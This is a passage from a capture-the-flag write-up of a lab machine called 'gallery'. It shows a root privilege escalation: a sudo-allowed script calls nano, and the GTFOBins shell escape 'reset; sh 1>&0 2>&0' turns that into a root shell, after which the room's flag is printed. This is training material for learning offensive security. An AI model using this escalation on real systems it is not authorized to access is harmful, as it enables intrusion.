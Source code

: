   ```

- That took some time lol. Switch to Mike and read the flag. Moving to root escalation now.

---

## 👑 Root Privilege Escalation

- As always, I ran `sudo -l` first and found my way to root.

  ```
  mike@gallery:/var/backups/mike_home_backup$ sudo -l
  Matching Defaults entries for mike on gallery:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User mike may run the following commands on gallery:
      (root) NOPASSWD: /bin/bash /opt/rootkit.sh

  mike@gallery:/opt$ cat rootkit.sh 
  #!/bin/bash
  
  read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;
  
  # Execute your choice
  case $ans in
      versioncheck)
          /usr/bin/rkhunter --versioncheck ;;
      update)
          /usr/bin/rkhunter --update;;
      list)
          /usr/bin/rkhunter --list;;
      read)
          /bin/nano /root/report.txt;;
      *)
          exit;;
  esac
  ```
  
- This exploitation is sooooo cool btw! Here, we can't edit the script manually since we don't have permissions. What we can do is to abuse `nano` since the script calls it if we input `read`.
  This exploitation for `nano` you can find on GTFOBins. Run the script as sudo with full paths, type `read`, followed by `CTRL+R CTRL+X` to enter the `Read only mode` and then type `reset; sh 1>&0 2>&0`.

  ```
  mike@gallery:/opt$ sudo /bin/bash /opt/rootkit.sh 
  Would you like to versioncheck, update, list or read the report ? read
  ^R^X
  reset; sh 1>&0 2>&0# whoami 
  
  Command to execute: reset; sh 1>&0 2>&0# whoami                                 
  rootet Help                             ^X Read File
  # cat /root/root.txt                    M-F New Buffer
  THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
  ```
  
- Your terminal will be destroyed since we are in `nano` but you can still do `whoami` and read the flag without any issues.
 
---

## 🏁 Flags

  ```